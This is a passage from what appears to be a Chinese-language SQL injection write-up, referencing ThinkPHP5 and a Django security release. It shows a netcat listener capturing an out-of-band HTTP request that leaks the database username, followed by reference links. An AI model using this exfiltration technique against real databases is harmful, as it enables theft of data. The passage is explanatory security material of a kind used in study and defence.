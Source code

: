 在 shell 中监听得到：

```shell
$ nc -l 9000
GET /SYSTEM HTTP/1.0
Host: host.docker.internal
Content-Type: text/plain; charset=utf-8
```

可以看到，返回了数据库用户名。

# 参考

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://blog.csdn.net/Fly_hps/article/details/84953248
- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/
- https://xz.aliyun.com/t/7403
